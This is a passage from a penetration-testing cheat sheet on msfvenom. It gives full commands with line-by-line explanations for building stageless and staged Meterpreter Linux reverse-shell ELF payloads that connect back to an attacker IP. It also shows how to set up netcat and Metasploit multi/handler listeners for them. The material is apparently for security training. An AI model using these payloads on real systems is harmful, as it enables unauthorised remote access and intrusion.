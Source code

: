 ### 4.3 Msfvenom Shells
Msfvenom generates payloads for various platforms and formats, with support for **staged** and **stageless** shells.

#### Reverse Shell (Stageless)
- **Command**:
  ```bash
  msfvenom -p linux/x64/shell_reverse_tcp -f elf -o shell.elf LHOST=10.10.10.5 LPORT=443
  ```
  - **Line-by-Line**:
    - `msfvenom`: Invokes the Msfvenom tool.
    - `-p linux/x64/shell_reverse_tcp`: Specifies a stageless reverse TCP shell for 64-bit Linux.
    - `-f elf`: Sets the output format to ELF (Linux executable).
    - `-o shell.elf`: Saves the payload to `shell.elf`.
    - `LHOST=10.10.10.5`: Sets the attacker’s IP for the shell to connect to.
    - `LPORT=443`: Sets the attacker’s port.
- **Listener**:
  ```bash
  nc -lvnp 443
  ```
  - **Line-by-Line**: See Netcat section.
- **Target**: Run `./shell.elf`.

#### Reverse Shell (Staged, Meterpreter)
- **Command**:
  ```bash
  msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell.elf LHOST=10.10.10.5 LPORT=443
  ```
  - **Line-by-Line**:
    - `msfvenom`: Invokes Msfvenom.
    - `-p linux/x64/meterpreter/reverse_tcp`: Specifies a staged Meterpreter reverse TCP shell for 64-bit Linux.
    - `-f elf`: ELF format.
    - `-o shell.elf`: Output file.
    - `LHOST=10.10.10.5`: Attacker’s IP.
    - `LPORT=443`: Attacker’s port.
- **Listener** (Metasploit):
  ```bash
  msfconsole
  use multi/handler
  set PAYLOAD linux/x64/meterpreter/reverse_tcp
  set LHOST 10.10.10.5
  set LPORT 443
  exploit -j
  ```
  - **Line-by-Line**:
    - `msfconsole`: Starts Metasploit.
    - `use multi/handler`: Selects the multi/handler module.
    - `set PAYLOAD linux/x64/meterpreter/reverse_tcp`: Matches the Msfvenom payload.
    - `set LHOST 10.10.10.5`: Sets the listening IP.
    - `set LPORT 443`: Sets the listening port.
    - `exploit -j`: Runs the listener as a background job.
